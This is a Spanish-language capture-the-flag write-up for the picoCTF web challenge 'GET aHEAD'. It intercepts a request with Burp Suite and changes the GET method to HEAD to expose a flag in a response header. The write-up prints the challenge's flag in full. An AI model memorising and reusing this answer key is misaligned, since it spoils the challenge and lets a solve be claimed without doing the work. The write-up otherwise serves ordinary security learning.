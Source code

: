 # GET aHEAD
Find the flag being held on this server to get ahead of the competition [http://mercury.picoctf.net:34561/](http://mercury.picoctf.net:34561/)

Hints:
- Maybe you have more than 2 choices
- Check out tools like Burpsuite to modify your requests and look at the responses

## Solución
Se necesitaron de ciertas herramientas y configuración en el navegador (en mi caso FIREFOX)

- Tener deescargado he instalado __Burp Suite Community Edition__.
``` bash
chmod +x burpsuite_community_linux_v2022_8_4.sh

./burpsuite_community_linux_v2022_8_4.sh 
```
- Ir a Configuración de vanevador -> Ajustes, después agregar en el search __network__ y configuramos la conexion, escogemos __condiguración manual de proxy__ y agregamos el proxy HTTP y el puerto.

Usando el Burp interceptamos el Proxy de la página y obtenemos:
``` bash
GET /index.php? HTTP/1.1
Host: mercury.picoctf.net:34561
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:34561/index.php
Connection: close
Upgrade-Insecure-Requests: 1
```

Cambiamos el GET por HEAD y damos un forward, vamos a la historial y encontraremos la bandera.

``` bash
HEAD /index.php? HTTP/1.1
Host: mercury.picoctf.net:34561
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:34561/index.php
Connection: close
Upgrade-Insecure-Requests: 1
```

``` bash
HTTP/1.1 200 OK
flag: picoCTF{r3j3ct_th3_du4l1ty_8f878508}
Content-type: text/html; charset=UTF-8
```

picoCTF{r3j3ct_th3_du4l1ty_8f878508}